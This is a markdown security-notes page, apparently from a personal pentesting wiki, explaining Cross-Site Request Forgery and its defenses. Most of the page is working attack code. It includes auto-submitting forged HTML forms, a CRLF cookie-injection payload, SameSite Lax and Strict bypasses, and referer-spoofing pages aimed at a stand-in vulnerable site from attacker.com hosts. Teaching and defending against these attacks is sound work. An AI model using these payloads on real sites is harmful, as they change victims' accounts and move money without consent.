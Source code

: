```yaml
---
title: "Cross-Site Request Forgery (CSRF)"
weight: 8
description: "Learn what CSRF attacks are, how they work with real examples, and how to defend against them using CSRF tokens, SameSite cookies, and referer validation."
---
```


# Cross-Site Request Forgery (CSRF)

Cross-Site Request Forgery (CSRF) is a type of web attack where a malicious site tricks a user into performing actions on another site where they're authenticated. For example, it could change a user's email or send money-without their consent.

---

## How CSRF Attacks Work

An attacker can trick a logged-in user into submitting unwanted requests.

### POST-Based Attack

```html
<html>
  <body>
    <form action="https://vulnerable-website.com/email/change" method="POST">
      <input type="hidden" name="email" value="pwned@evil-user.net" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### GET-Based Attack

```html
<img src="https://vulnerable-website.com/email/change?email=pwned@evil-user.net">
```

---

## CSRF Defenses

{{< details summary="CSRF Tokens" >}}

A CSRF token is a unique and unpredictable value generated by the server. It must be submitted with sensitive requests (like changing an email). This ensures the request comes from a legitimate user.

```html
<form name="change-email-form" action="/my-account/change-email" method="POST">
  <label>Email</label>
  <input required type="email" name="email" value="example@normal-website.com">
  <input required type="hidden" name="csrf" value="unique-random-token">
  <button type="submit">Update Email</button>
</form>
```

{{< hint style=notes >}}
CSRF tokens should be tied to the user's session and checked on the server.
{{< /hint >}}

{{< /details >}}

{{< details summary="SameSite Cookies" >}}

SameSite is a cookie attribute that controls whether cookies are sent with cross-site requests.

- `Strict`: Only sent in same-site requests (most secure).
- `Lax`: Sent on same-site and top-level GET requests (default in most modern browsers).
- `None`: Sent in all requests but must be marked `Secure`.

{{< /details >}}

{{< details summary="Referer Header Validation" >}}

Some applications check the `Referer` header to verify that requests are coming from their own domain. This can help prevent CSRF attacks, but it's not foolproof.

{{< hint style=warning >}}
Don't rely solely on referer validation. Users or browsers may strip or modify this header.
{{< /hint >}}

{{< /details >}}

---

## CSRF Token Bypass Techniques

- Switch from `POST` to `GET`
- Remove the CSRF token parameter
- Use a predictable or fake token
- Use Burp Sequencer to analyze the quality of randomness of the token 
- Reuse a token from your own session (if the app doesn't check the token-user binding)
- There are two token: one in a cookie and one in hidden input (this can also have the same value)
  - Some apps do tie the CSRF token to a cookie, but not to the session cookie.
  - Can you set a cookie? E.g. Header injection with `CRLF`.(`%0d%0a`)
  - ```sh
    /?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None
    ```
  - Log in to the application with your account -> obtain a valid token and associated cookie.
  - Generate CSRF PoC and remove the auto-submit `<script>` block. Then add the following code to inject the cookie.

  ```html
  <img src="https://vulnerable-website.com/?search=test%0d%0aSet-Cookie:%20csrfKey=YOUR-KEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
  ```

---

## Bypassing SameSite Protections

### Bypassing Lax Mode

- Using GET requests (bypass lax)

    ```html
    <script>
        document.location = 'https://vulnerable-website.com/account/transfer-payment?recipient=hacker&amount=1000000';
    </script>
    ```

- GET method override (bypass lax)
  - Even if an ordinary `GET` request isn't allowed, some frameworks supports `_method` parameter. (Other frameworks support a variety of similar parameters)
  
    ```http
    GET /my-account/change-email?email=a@a.com&_method=POST HTTP/1.1
    ```


### Bypassing Strict Mode

Use a client-side redirect:

```javascript
// On page: https://vulnerable-website.com/post/confirm?postId=10
redirectOnConfirmation = () => {
    setTimeout(() => {
        const url = new URL(window.location);
        const postId = url.searchParams.get("postId");
        window.location = '/post/' + postId;
    }, 3000);
}
```

Now trigger redirect to a sensitive endpoint:

```html
<script>
    document.location = "https://vulnerable-website.com/post/confirm?postId=10/../../my-account/change-email?email=a@a.com";
</script>
```

{{< hint style=notes >}}
**Note**: this attack isn't possible with server-side redirects, as browsers recognize the cross-site request and apply cookie restrictions.
{{< /hint >}}

---

## Bypassing Referer Validation

### Strip the Referer

Some apps validate the Referer header if present, but skip if omitted:

```html
<meta name="referrer" content="never">
```

This prevents the browser from sending the `Referer` header.

### Fake the Referer

Common tricks include using subdomains or path tricks:

```md
http://vulnerable-website.com.attacker.com/csrf
http://attacker.com/csrf?vulnerable-website.com
```

You need to add `Referrer-Policy` to `unsafe-url`:

```html
<meta name="referrer" content="unsafe-url" />
```

{{< hint style=tips >}}
**Tip**: Instead of use `http://attacker-website.com/vulnerable-website.com`, you can use `http://attacker-website.com/` and add `<script>history.pushState('', '', '/vulnerable-website.com')</script>`

```html
<!-- http://attacker-website.com/ -->
<html>
  <meta name="referrer" content="unsafe-url"/>
  <body>
    <form action="https://vulnerable-website.com/change-email" method="POST">
      <input type="hidden" name="email" value="test@test.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/vulnerable-website.com');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
{{< /hint >}}

Firefox 87 new default Referrer Policy `strict-origin-when-cross-origin` trimming user sensitive information like path and query string to protect privacy \[[↗](https://blog.mozilla.org/security/2021/03/22/firefox-87-trims-http-referrers-by-default-to-protect-user-privacy/)] .

